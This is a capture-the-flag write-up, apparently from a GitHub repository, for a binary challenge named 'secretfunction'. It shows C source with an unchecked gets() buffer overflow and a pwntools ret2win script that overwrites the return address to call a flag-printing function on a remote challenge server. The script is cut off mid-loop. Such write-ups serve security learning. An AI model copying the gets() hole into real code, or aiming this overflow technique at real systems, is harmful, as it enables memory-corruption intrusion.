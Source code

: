 ## secretfunction

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/5fa7eb53-56f4-499e-bc94-c316c9279bb1)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/2dcbf874-32c7-4d8a-8589-dab822e03aef)

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FLAGSIZE 64

char flag[FLAGSIZE];

void secret(){
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
		printf("Flag File is Missing.\n");
		exit(0);
	}

	fgets(flag,FLAGSIZE,f);
	printf("%s\n", flag);
}


void vulnerable() {
	char buf[64] = {0x00};
	
	gets(buf);
	puts("Maybe you will find it next time");
	return;	
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);
	puts("Hidden in me is a function that leads you to the flag, can you find it?");
	vulnerable();
}
```

Use ropper to get address of `ret` and address of `win`, played around with offset to get correct offset. Since somethings wrong with the server the flag only shows 6% of the time so it is in a while loop.

```py
from pwn import *

context.log_level = 'error'

offset = 68
ret = 0x0804900a
win = 0x080491b2
while 1:
	r = remote('ctf2.whitehats.site', 2008)

	payload = b'A' * offset + p32(win) + p32(ret)

	r.sendline(payload)
	r.recvuntil(b'Maybe you will find it next time\n')

	try:
		a = r.recvline().decode()
```